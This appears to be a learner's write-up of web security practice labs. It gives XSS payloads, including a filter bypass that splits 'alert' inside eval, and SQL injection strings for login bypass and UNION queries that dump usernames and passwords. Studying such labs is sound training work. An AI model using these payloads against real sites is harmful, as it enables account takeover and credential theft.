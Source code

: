 # XSS
## REFLECTED XSS
In this the lab contains a simple reflected xss vulnerability, where we need to use alert () function to solve it.
I called the alert function with the payload `<script>alert(0)</script>`
## DOM BASED XSS
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
I called the alert function with the payload `"><svg onload=alert()>`
## THE CLIENT SIDE
In this we need to use the alert function to pop up a dialogue box, but if we try it in the traditional way, it says sus link detected and eliminated, after digging a little bit into it I found that thescript filtered it out with the line
`if(link.includes("alert")){
                document.write("sus link detected.....and eliminated");
                document.body.innerHTML += "<br><a href='javascript:location.reload()'>Reload</a>";
            }`
which filters the link if it contains the word alert in it. And neither aLeRt, or changing any letters to capital would work since all letters are converted into lowercase and this turn the aLeRt into alert which gets filtered by the system.
So I used eval function and broke the function into two strings "aler" + "t()" which looks like eval("aler"+"t()"). Now this can bypass the filter since it is intercepted as aler + t() which is not alert() directly.
Here we are using eval() because with the <script> tag it cant understand or merge the two sperate strings.
# SQL Injection
## LAB LOGIN BYPASS
This is a simple login webpage. I tried to enter the username as `administrator'--+` because generally the usernames are sent to the backend by enclosing them in a string and the password is also in the same line so we can comment it out by passing `--+`. And henceforth the system only checks for the usernae and gives us the acess to the account.
## UNION ATTACK
In this we try to breach the usernames and passwords from the backend database. first we check the number of columns containg strings by the payload `' union select 'username','password'--+`. This should print the texts username and password indicating there are 2 columns which columns contain text data. So we make our final payload as `' union select username,password from users --+` which selects both the columns.
## SQLI LABS
### LAB 1
`?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+` to break the code
### LAB 2
This accept only integers so it cannot take strings as input

`?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+` 
### LAB 3
Same as the first one with the addition of a bracket 

`?id=-1%27)union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`
### LAB 4
This is a double quote query

`?id=-1") union select 1,group_concat(username),group_concat(password) from users--+` breaks the code
 
